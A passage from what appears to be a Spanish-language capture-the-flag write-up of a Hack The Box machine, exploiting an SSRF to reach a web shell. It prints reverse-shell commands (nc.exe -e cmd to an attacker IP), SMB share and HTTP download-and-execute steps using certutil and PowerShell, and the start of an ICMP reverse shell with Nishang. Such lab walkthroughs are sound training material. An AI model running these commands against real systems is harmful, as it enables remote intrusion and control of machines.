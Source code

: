     ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 443
    ```

En este caso no responde y vemos un exit status 1. Intentamos de varias maneras

1. Nos creamos un registro compartido a nivel de red

    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
```

No responde y vemos un exit status 2.

Intentamos con un servidor web.

1. Nos creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=certutil.exe -f -urlcache -split http://10.10.14.8/nc.exe nc.exe
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell iwr -uri http://10.10.14.8/nc.exe -OutFile test
```

No responde y vemos un exit status que no es 0.

Aqui vemos que las conexiones por TCP no funcionan. Puede ser porque hay reglas definidas que no permiten utilizar TCP y S4vitar
nos adelanta que tampoco funccionna por UDP.

Aqui hemos podido comprobar que:

- tenemos capacidad de ejecucion remota de commando.
- tenemos conectividad por trasa ICMP
- el protocolo TCP esta bloqueado
- el protocole UDP esta bloqueado

Segun esta analisis intentamos crearnos una reverse shell por **ICMP**

### Entablar una reverse shell por ICMP {-}

1. Nos descargamos el Nishang

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang
    cd Shells
    cp Invoke-PowerShellIcmp.ps1 ../../icmp.ps1
    cd ../..
    vi icmp.ps1
    ```
